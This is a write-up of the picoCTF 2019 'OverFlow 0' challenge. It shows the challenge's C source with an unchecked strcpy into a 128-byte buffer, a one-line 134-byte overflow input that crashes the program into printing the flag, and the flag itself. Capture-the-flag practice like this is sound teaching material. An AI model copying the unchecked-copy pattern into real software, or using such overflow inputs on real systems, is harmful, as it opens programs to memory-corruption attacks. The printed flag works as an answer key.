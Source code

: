 # OverFlow 0 - Points: 100

## Problem

> This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln) and get a flag. Its also found in /problems/overflow-0_4_e130f4df1710865981d50f778a8059f7 on the shell server. [Source](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln.c).

## Hints

> Find a way to trigger the flag to print

> If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Overview

There's a source code written in C and a program to run. Looking at the tittle, we pretty much know this challenge is about buffer overflow, one of a really common program vulnerabilities.

## Solutions

Let's look at the source code first

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
Basically, the program tries to open a text file called flag.txt which I believe is on their shell server.

However we can try pwning the binary locally first creating a file flag.txt on your system and add some contents into it. 

Anyways, I'll just do it on the shell server 

```
$ ./vuln
Please enter an argument next time
```

Now we try it with an argument
```
$ ./vuln yougay
You entered: yougay
```
As you can see in the source code, ```vuln()``` doesn't have any boundary checking, so even though there is only 128 bytes space available, its ```strcpy()``` will keep inserting more and more bytes into ```buf``` and it's a very basic buffer overflow.

I'll try to leverage and exploit this vulnerability. 

After a few tries I found that it needed 6 more bytes to leak out the flag.
```
$ ./vuln $(python -c "print('A'*134)")
picoCTF{3asY_P3a5y2f814ddc}
```
